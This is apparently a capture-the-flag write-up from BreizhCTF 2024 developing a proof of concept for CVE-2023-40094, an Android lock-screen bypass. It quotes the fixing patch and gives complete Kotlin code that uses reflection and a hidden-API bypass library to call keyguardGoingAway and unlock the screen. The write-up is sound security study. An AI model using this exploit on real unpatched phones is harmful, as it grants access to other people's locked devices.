 ```yaml
---
layout: post
title: BreizhCTF Writeup or Android PoC for CVE-2023-40094
date: 2024-05-23 12:14 +0200
categories: [CTF, Android, CVE]
img_path: /images/bzh-ctf-cve
---
```


## Introduction

The last mobile challenge from the 2024 edition of [BreizhCTF](https://www.breizhctf.com/) consists in developing a proof of concept for the vulnerability known as CVE-2023-40094. An vulnerable system partition is provided.

The goal is to use the app to unlock the phone.

_Note I didn't solve it during the CTF but I remember that according to the challenge the flag was on a screenshot you could see with the screen unlocked so you had to provide an APK that unlocks the phone_.

## CVE-2023-40094

<https://nvd.nist.gov/vuln/detail/CVE-2023-40094>:
> In keyguardGoingAway of ActivityTaskManagerService.java, there is a possible lock screen bypass due to a missing permission check. This could lead to local escalation of privilege with no additional execution privileges needed. User interaction is not needed for exploitation.

Let's take a look at the patch:

First you need to get the Android bulletin of december 2023 (simple Google search) and reach the commit page <https://android.googlesource.com/platform/frameworks/base/+/1120bc7e511710b1b774adf29ba47106292365e7>.

Then click on [diff](https://android.googlesource.com/platform/frameworks/base/+/1120bc7e511710b1b774adf29ba47106292365e7%5E%21/) to get the commit diff:

```diff
diff --git a/core/java/android/app/IActivityTaskManager.aidl b/core/java/android/app/IActivityTaskManager.aidl
index fe75dd3..b709b7e 100644
--- a/core/java/android/app/IActivityTaskManager.aidl
+++ b/core/java/android/app/IActivityTaskManager.aidl

@@ -239,6 +239,7 @@
      *              {@link android.view.WindowManagerPolicyConstants#KEYGUARD_GOING_AWAY_FLAG_TO_SHADE}
      *              etc.
      */
+     @JavaPassthrough(annotation="@android.annotation.RequiresPermission(android.Manifest.permission.CONTROL_KEYGUARD)")
     void keyguardGoingAway(int flags);
 
     void suppressResizeConfigChanges(boolean suppress);

diff --git a/services/core/java/com/android/server/wm/ActivityTaskManagerService.java b/services/core/java/com/android/server/wm/ActivityTaskManagerService.java
index aa15429..71ca852 100644
--- a/services/core/java/com/android/server/wm/ActivityTaskManagerService.java
+++ b/services/core/java/com/android/server/wm/ActivityTaskManagerService.java

@@ -18,6 +18,7 @@
 
 import static android.Manifest.permission.BIND_VOICE_INTERACTION;
 import static android.Manifest.permission.CHANGE_CONFIGURATION;
+import static android.Manifest.permission.CONTROL_KEYGUARD;
 import static android.Manifest.permission.CONTROL_REMOTE_APP_TRANSITION_ANIMATIONS;
 import static android.Manifest.permission.INTERACT_ACROSS_USERS;
 import static android.Manifest.permission.INTERACT_ACROSS_USERS_FULL;
@@ -3394,6 +3395,7 @@
 
     @Override
     public void keyguardGoingAway(int flags) {
+        mAmInternal.enforceCallingPermission(CONTROL_KEYGUARD, "unlock keyguard");
         enforceNotIsolatedCaller("keyguardGoingAway");
         final long token = Binder.clearCallingIdentity();
         try {
```

Notice that a permission _android.Manifest.permission.CONTROL_KEYGUARD_ was added to protect from the call to `public void keyguardGoingAway(int flags)` both in _IActivityTaskManager.aidl_ and _ActivityTaskManagerService.java_.

I guess that previously we could call this function without permission but what is _keyguard_? [Its the lock screen](https://stackoverflow.com/questions/17689842/what-is-the-keyguard-in-android) so our goal is to call `public void keyguardGoingAway(int flags)` with the right permissions.

## Setup

A vulnerable system (android-34) partition is provided for the challenge, simply put it under _\<Android Sdk Folder>/Android/Sdk/system-images_ then [create an AVD of a Pixel](https://developer.android.com/studio/run/managing-avds) from this image. Our goal is to bypass the lock screen so enable it first from the settings.

## Exploit

The goal is to call `public void keyguardGoingAway(int flags)` with the right flags from the class _ActivityTaskManagerService.java_. _ActivityTaskManagerService.java_ is an Android service so how can I call it since it does not live in the app process?

I found some posts that shows how to interact with those API (I just googled the name of the classes and the "exploit" keyword):
    - <https://huaweicloud.csdn.net/64f97cad87b26b6585a1e62b.html>: Hooks methods from `IActivityTaskManager`.
    - <https://androidreverse.wordpress.com/2020/05/03/startflag-dos-exploit>: Hooks method _startActivity_ then trigger a DoS.

Inter-app communication uses the **Binder**. Its an Inter-process comunication mechanism that allows different processes to communicate efficiently (Its like optimized RPC).

Here it means that Android creates an object _IActivityTaskManager_ (defined by a interface file called _IActivityTaskManager.aidl_) that can call remotely methods of the service defined by _ActivityTaskManagerService.java_. This object is contained in the class _ActivityTaskManager_ as a _Singleton_.
As the Android framework is loaded in our App process and _ActivityTaskManager_ contains the instance of _IActivityTaskManager_ (has a Singleton) then It is possible to retrieve _IActivityTaskManager_ and then call `public void keyguardGoingAway(int flags)` remotely from the service _ActivityTaskManagerService.java_ (binder mechanism).

The following code is the PoC:

```kotlin
package com.bzh.love

import android.annotation.SuppressLint
import android.content.Context
import android.os.Build
import android.os.Bundle
import android.util.Log
import androidx.activity.ComponentActivity
import androidx.activity.compose.setContent
import androidx.annotation.RequiresApi
import androidx.compose.foundation.layout.Arrangement
import androidx.compose.foundation.layout.Column
import androidx.compose.foundation.layout.fillMaxSize
import androidx.compose.material3.Text
import androidx.compose.ui.Alignment
import androidx.compose.ui.Modifier
import com.bzh.love.ui.theme.BzhTheme
import org.lsposed.hiddenapibypass.HiddenApiBypass

class MainActivity : ComponentActivity() {
    @RequiresApi(Build.VERSION_CODES.P)
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)

        setContent {
            BzhTheme {
                    Column( modifier = Modifier.fillMaxSize(),
                        verticalArrangement = Arrangement.Center,
                        horizontalAlignment = Alignment.CenterHorizontally) {
                        Text(text = "Exploit is done")
                    }
                }
            }
        doExploit(this)
        }

    }




@RequiresApi(Build.VERSION_CODES.P)
@SuppressLint("PrivateApi", "DiscouragedPrivateApi", "BlockedPrivateApi")
fun doExploit(context: Context) {
    // some online posts show uses of those API:
    // - https://huaweicloud.csdn.net/64f97cad87b26b6585a1e62b.html
    // - https://androidreverse.wordpress.com/2020/05/03/startflag-dos-exploit/
    // HiddenApiBypass comes from:
    // - org.lsposed.hiddenapibypass:hiddenapibypass:4.3

    // Goal: Call keyguardGoingAway using the ActivityTaskManagerService
    Log.i("EXPLOIT", "Launching exploit.")

    // IActivityTaskManager has the keyguardGoingAway method an can be called from our process
    // as it comes from the framework.
    val iActivityTaskManagerClazz = Class.forName("android.app.IActivityTaskManager")
    // We need ActivityTaskManager because it holds a stub of IActivityTaskManager as a Singleton:
    // "IActivityTaskManagerSingleton"
    val activityTaskManagerClazz = Class.forName("android.app.ActivityTaskManager")

    // We use reflection to get IActivityTaskManagerSingleton from ActivityTaskManager
    val iActivityTaskManagerSingletonField =
        activityTaskManagerClazz.getDeclaredField("IActivityTaskManagerSingleton")
    iActivityTaskManagerSingletonField.isAccessible = true // else we can't access private fields

    // our object IActivityTaskManagerSingleton is a singleton so I need to call its get() method
    // to extract the real object or use its mInstance
    val singletonClazz = Class.forName("android.util.Singleton")
    val mInstanceField = singletonClazz.getDeclaredField("mInstance")
    mInstanceField.isAccessible = true // else we can't access private fields

    // Finally get the object IActivityTaskManager from mInstance Field of the Singleton
    val iActivityTaskManagerSingleton = iActivityTaskManagerSingletonField.get(null)
    val iActivityTaskManager = mInstanceField.get(iActivityTaskManagerSingleton)

    // I can't call directly "keyguardGoingAway" so I use the framework HiddenApiBypass.
    try {
        HiddenApiBypass.invoke(iActivityTaskManagerClazz, iActivityTaskManager,
            "keyguardGoingAway", 0)
        Log.i("EXPLOIT", "Exploit is done. Phone must be unlocked.")
    } catch (_: Exception) {
        Log.i("EXPLOIT", "Exploit failed. Target may be not vulnerable.")
    }
}
```

Notes:

- The line `HiddenApiBypass.invoke(iActivityTaskManagerClazz, iActivityTaskManager, "keyguardGoingAway", 0)` is required as the exploit requires to call `keyguardGoingAway`. Android discourages the access to the API _android.app.IActivityTaskManager_ therefore it is a [hidden api](https://developer.android.com/guide/app-compatibility/restrictions-non-sdk-interfaces). Thus calling `keyguardGoingAway` requires to use an hidden API bypass such as <https://github.com/LSPosed/AndroidHiddenApiBypass>. To install it I had to had the following line to the dependencies in `build.gradle.kts`: `implementation("org.lsposed.hiddenapibypass:hiddenapibypass:4.3")`.
- I call _keyguardGoingAway_ with 0 as it worked with any value I provided.

Besides this line most of the code comes from the links:

- <https://huaweicloud.csdn.net/64f97cad87b26b6585a1e62b.html>
- <https://androidreverse.wordpress.com/2020/05/03/startflag-dos-exploit/>

## Demonstration

![Demo](demo.gif)

## Final thoughts

This challenge is so interesting as it forces us to quickly develop a PoC for an existing vulnerability. Thats real world skills. I definitely should have taken more time to do it during the CTF. **Huge thanks to the author**.
